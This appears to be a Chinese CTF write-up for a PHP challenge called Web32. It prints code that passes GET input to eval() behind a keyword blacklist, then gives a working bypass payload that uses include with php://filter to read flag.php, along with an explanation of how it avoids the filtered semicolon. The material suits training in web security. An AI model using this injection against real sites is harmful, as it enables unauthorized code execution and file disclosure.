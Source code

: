 <br>

# Web32

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这次连分号和括号都过滤了

```
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

<img src="/images/ctf-web06/image-20220924162859817.png" alt="image-20220924162859817" style="zoom:67%;" />

首先因为c的内容会在后边的代码中被执行, 那么使用`include` 将变量`GET[a]`包含进去,这里后边本应有个分号,但分号被过滤了,所以使用` ?> `相当于**提前对php代码进行闭合**

**`&`在url中的作用是分割不同的GET变量**
